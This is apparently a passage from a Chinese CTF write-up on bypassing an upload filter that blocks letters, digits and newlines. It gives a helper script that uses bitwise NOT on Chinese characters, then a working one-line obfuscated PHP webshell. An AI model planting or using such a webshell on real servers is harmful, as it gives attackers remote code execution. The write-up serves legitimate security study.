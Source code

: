 尝试了一下发现这个过滤比较变态, 连数字和字母都过滤了, 连续 6 个 1 居然都传不上去;

在此之前可以先尝试上传得到一个重要信息: `$` `_`  `'` `%` 是没有被过滤的 (这么看这道题是有意引导去做**无数字字母 webshell**, 可惜我不熟悉), 那么可以用位运算写一个:

无字符 shell 有三种: 异或(^)/取反(~)/自增:

这里 `^` 被过滤了, 用取反, 查找汉字脚本: (来自 P 神):

```php
<?php
header('Content-Type: text/html; charset=utf-8');
$str = '当我站在山顶上俯瞰半个鼓浪屿和整个厦门的夜空的时候，我知道此次出行的目的已经完成了，我要开始收拾行李，明天早上离开这里。前几天有人问我，大学四年结束了，你也不说点什么？乌云发生了一些事情，所有人都缄默不言，你也是一样吗？你逃到南方，难道不回家了吗？当然要回家，我只是想找到我要找的答案。其实这次出来一趟很累，晚上几乎是热汗淋漓回到住处，厦门的海风伴着妮妲路过后带来的淅淅沥沥的小雨，也去不走我身上任何一个毛孔里的热气。好在旅社的生活用品一应俱全，洗完澡后我爬到屋顶。旅社是一个老别墅，说起来也不算老，比起隔壁一家旧中国时期的房子要豪华得多，竖立在笔山顶上与厦门岛隔海相望。站在屋顶向下看，灯火阑珊的鼓浪屿街市参杂在绿树与楼宇间，依稀还可以看到熙熙攘攘的游客。大概是夜晚渐深的缘故，周围慢慢变得宁静下来，我忘记白天在奔波什么，直到站在这里的时候，我才知道我寻找的答案并不在南方。当然也不在北方，北京的很多东西让我非常丧气，包括自掘坟墓的中介和颐指气使的大人们；北京也有很多东西让我喜欢，我喜欢颐和园古色古香的玉澜堂，我喜欢朝阳门那块“永延帝祚”的牌坊，喜欢北京鳞次栉比的老宅子和南锣鼓巷的小吃。但这些都不是我要的答案，我也不知道我追随的是什么，但想想百年后留下的又是什么，想想就很可怕。我曾经为了吃一碗臭豆腐，坐着优步从上地到北海北，兴冲冲地来到那个垂涎已久的豆腐摊前，用急切又害羞的口吻对老板说，来两份量的臭豆腐。其实也只要10块钱，吃完以后便是无与伦比的满足感。我记得那是毕业设计审核前夕的一个午后，五月的北京还不算炎热，和煦的阳光顺着路边老房子的屋檐洒向大地，但我还是不敢站在阳光下，春天的燥热难耐也绝不输给夏天。就像很多人冷嘲热讽的那样，做这一行谁敢把自己完全曝光，甭管你是黑帽子白帽子还是绿帽子。生活在那个时候还算美好，我依旧是一个学生，几天前辞别的同伴还在朝九晚五的工作，一切都照旧运行，波澜不远走千里吃豆腐这种理想主义的事情这几年在我身上屡屡发生，甚至南下此行也不例外。一年前的这个时候我许过一个心愿，在南普陀，我特为此来还愿。理想化、单纯与恋旧，其中单纯可不是一个多么令人称赞的形容，很多人把他和傻挂钩。“你太单纯了，你还想着这一切会好起来”，对呀，在男欢女爱那些事情上，我可不单纯，但有些能让人变得圆滑与世故的抉择中，我宁愿想的更单纯一些。去年冬天孤身一人来到北京，放弃了在腾讯做一个安逸的实习生的机会，原因有很多也很难说。在腾讯短暂的实习生活让我记忆犹新，我感觉这辈子不会再像一个小孩一样被所有人宠了，这些当我选择北漂的时候应该就要想到的。北京的冬天刺骨的寒冷，特别是2015年的腊月，有几天连续下着暴雪，路上的积雪一踩半步深，咯吱咯吱响，周遭却静的像深山里的古刹。我住的小区离公司有一段距离，才下雪的那天我甚至还走着回家。北京的冬天最可怕的是寒风，走到家里耳朵已经硬邦邦好像一碰就会碎，在我一头扎进被窝里的时候，我却慢慢喜欢上这个古都了。我想到《雍正皇帝》里胤禛在北京的鹅毛大雪里放出十三爷，那个拼命十三郎带着令牌取下丰台大营的兵权，保了大清江山盛世的延续与稳固。那一夜，北京的漫天大雪绝不逊于今日，而昔人已作古，来者尚不能及，多么悲哀。这个古都承载着太多历史的厚重感，特别是下雪的季节，我可以想到乾清宫前广场上千百年寂寞的雕龙与铜龟，屋檐上的积雪，高高在上的鸱吻，想到数百年的沧桑与朝代更迭。雪停的那天我去了颐和园，我记得我等了很久才摇摇摆摆来了一辆公交车，车上几乎没有人，司机小心翼翼地转动着方向盘，在湿滑的道路上缓慢前行。窗外白茫茫一片，阳光照在雪地上有些刺眼，我才低下头。颐和园的学生票甚至比地铁票还便宜。在昆明湖畔眺望湖面，微微泛着夕阳霞光的湖水尚未结冰，踩着那些可能被御碾轧过的土地，滑了无数跤，最后只能扶着湖边的石狮子叹气，为什么没穿防滑的鞋子。昆明湖这一汪清水，见证了光绪皇帝被囚禁十载的蹉跎岁月，见证了静安先生誓为先朝而自溺，也见证了共和国以来固守与开放的交叠。说起来，家里有本卫琪著的《人间词话典评》，本想买来瞻仰一下王静安的这篇古典美学巨著，没想到全书多是以批判为主。我自诩想当文人的黑客，其实也只是嘴里说说，真到评说文章是非的时候，我却张口无词。倒是誓死不去发，这点确实让我无限感慨：中国士大夫的骨气，真的是从屈原投水的那一刻就奠定下来的。有句话说，古往今来中国三大天才死于水，其一屈原，其二李白，其三王国维。卫琪对此话颇有不服，不纠结王国维是否能够与前二者相提并论，我单喜欢他的直白，能畅快评说古今词话的人，也许无出其右了吧。人言可畏、人言可畏，越到现代越会深深感觉到这句话的正确，看到很多事情的发展往往被舆论所左右，就越羡慕那些无所畏惧的人，不论他们是勇敢还是自负。此间人王垠算一个，网络上人们对他毁誉参半，但确实有本事而又不矫揉做作，放胆直言心比天高的只有他一个了。那天在昆明湖畔看过夕阳，直到天空变的无比深邃，我才慢慢往家的方向走。耳机放着后弦的《昆明湖》，不知不觉已经十年了，不知道这时候他有没有回首望望自己的九公主和安娜，是否还能够“泼墨造一匹快马，追回十年前姑娘”。后来，感觉一切都步入正轨，学位证也顺利拿到，我匆匆告别了自己的大学。后来也遇到了很多事，事后有人找我，很多人关心你，少数人可能不是，但出了学校以后，又有多少人和事情完全没有目的呢？我也考虑了很多去处，但一直没有决断，倒有念怀旧主，也有妄自菲薄之意，我希望自己能做出点成绩再去谈其他的，所以很久都是闭门不出，琢磨东西。来到厦门，我还了一个愿，又许了新的愿望，希望我还会再次来还愿。我又来到了上次没住够的鼓浪屿，订了一间安静的房子，只有我一个人。在这里，能听到的只有远处屋檐下鸟儿叽叽喳喳的鸣叫声，远处的喧嚣早已烟消云散，即使这只是暂时的。站在屋顶的我，喝下杯中最后一口水。清晨，背着行李，我乘轮渡离开了鼓浪屿，这是我第二次来鼓浪屿，谁知道会不会是最后一次。我在这里住了三天，用三天去寻找了一个答案。不知不觉我又想到辜鸿铭与沈子培的那段对话。“大难临头，何以为之？”“世受国恩，死生系之。”';
for($i=0; $i<mb_strlen($str, 'utf-8'); $i++)
{
	$st = mb_substr($str, $i,1, 'utf-8');
	$a = ~($st);
	$b = $a[1];				#取汉字的第一位
	if($b==$_GET['a'])		#$_GET['a']想要得到的字符
	{
		echo $st;exit;
	}
	}
?>
```

再处理一下, 连换行符都过滤了, 所以都塞进一排:

```php
<?=$_=[];$__.=$_;$____=$_==$_;$___=~茉[$____];$___.=~内[$____];$___.=~茉[$____];$___.=~苏[$____];$___.=~的[$____];$___.=~咩[$____];$_____=_;$_____.=~课[$____];$_____.=~尬[$____];$_____.=~笔[$____];$_____.=~端[$____];$__________=$$_____;$___($__________[~瞎[$____]]);
```

